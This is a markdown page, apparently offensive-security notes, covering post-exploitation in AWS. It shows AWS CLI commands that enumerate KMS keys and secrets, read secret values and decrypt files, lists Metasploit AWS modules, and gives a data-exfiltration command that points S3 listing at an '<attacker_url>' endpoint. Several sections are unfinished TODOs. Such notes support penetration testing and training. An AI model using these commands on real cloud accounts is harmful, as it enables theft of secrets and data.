 # 04 - Post Exploitation

TODO: https://github.com/RhinoSecurityLabs/pacu

## Enumeration

### Authenticated Enumeration

```
$ aws [--endpoint-url=http://<IP>:4566] kms list-keys

$ aws [--endpoint-url=http://<IP>:4566] secretsmanager list-secrets

$ aws [--endpoint-url=http://<IP>:4566] secretsmanager get-secret-value --secret-id "<arn_ID>"
```

```
auxiliary/cloud/aws/enum_ssm
auxiliary/cloud/aws/enum_ec2
auxiliary/cloud/aws/enum_iam
auxiliary/cloud/aws/enum_s3
auxiliary/cloud/aws/aws_launch_instances
```

## Privilege Escalation

TODO: Write conditions to escalate to gain full control of the s3 bucket servers

## Credential Access and Dumping

Decrypt the file with a master key.

```
$ aws kms decrypt [--endpoint-url=http://<IP>:4566] --ciphertext-blob fileb:///path/to/file.enc --query Plaintext --output text
```

Find the key

```
$ aws kms decrypt [--endpoint-url=http://<IP>:4566] --ciphertext-blob fileb:///path/to/file.enc --query Plaintext --output text --key-id=<Key_ID> 
```

Decrypt the file with a supported encryption algorithm.

```
$ aws kms decrypt [--endpoint-url=http://<IP>:4566] --ciphertext-blob fileb:///path/to/file.enc --query Plaintext --output text --key-id=<Key_ID> --encryption-algorithm <encryption_algorithm>
```

## Data Exfiltration

TODO: Setup MinIO on a server to exflitrate s3 bucket instances and write conditions before executing this phase

```
$ aws s3 --endpoint=http[s]://<attacker_url> --no-sign-request --recursive ls s3://<s3_bucket_IP>
```

## Maintaining Access

TODO: Provide steps for creating user accounts with admin access

---
## References

- [Privilege Escalation in AWS - Part 01](https://mystic0x1.github.io/posts/AWS-Privilege-Escalation-Part-01/)

- [Privilege Escalation in AWS - Part 02](https://mystic0x1.github.io/posts/AWS-Privilege-Escalation-Part-02/)

- [Methods to Backdoor an AWS Account](https://mystic0x1.github.io/posts/methods-to-backdoor-an-aws-account/)

- [MinIO](https://min.io)

- [minio-backup-s3](https://github.com/fandoghpaas/minio-backup-s3)